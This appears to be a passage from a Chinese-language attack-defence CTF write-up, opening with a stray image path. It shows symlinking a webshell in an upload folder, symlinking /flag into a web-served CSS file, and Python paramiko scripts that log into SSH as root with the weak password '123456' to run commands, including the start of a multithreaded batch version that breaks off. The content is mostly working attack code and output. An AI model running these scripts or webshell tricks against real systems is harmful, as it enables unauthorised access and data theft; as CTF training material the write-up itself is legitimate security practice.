 ```
ln -s  /var/www/html/upload/shell.php     /var/www/html/upload/new.php
```

软连接利用

```
root@086f12c38b93:~# ln -s /flag /var/www/html/css/flag.css
root@086f12c38b93:~# cat /var/www/html/css/flag.css
SL{3c7c719b9fb980dca71080b9d96c9c6aa03c16c0}
```

然后访问url/css/flag.css即可得到flag

## SSH弱密码利用

```
#-*- coding:utf-8 -*-
import paramiko
ip = '192.168.1.137'
port = '22'
username = 'root'
passwd = '123456'
# ssh 用户名 密码 登陆
def ssh_base_pwd(ip,port,username,passwd,cmd='cat /flag'):
    port = int(port)
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect(hostname=ip, port=port, username=username, password=passwd)
    stdin,stdout,stderr = ssh.exec_command(cmd)
    result = stdout.read()
    if not result :
        print("无结果!")
        result = stderr.read()
    ssh.close()
    return result.decode()
a = ssh_base_pwd(ip,port,username,passwd)
print(a)

#SL{3c7c719b9fb980dca71080b9d96c9c6aa03c16c0}
```

批量

```
#-*- coding:utf-8 -*-
import paramiko
import threading
import queue
import time
#反弹shell python
q=queue.Queue()
#lock = threading.Lock()

# ssh 用户名 密码 登陆
def ssh_base_pwd(ip,port,username,passwd,cmd):
    port = int(port)
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect(hostname=ip, port=port, username=username, password=passwd)
    stdin,stdout,stderr = ssh.exec_command(cmd)
    result = stdout.read()
    if not result :
        result = stderr.read()
    ssh.close()
    return result.decode()

```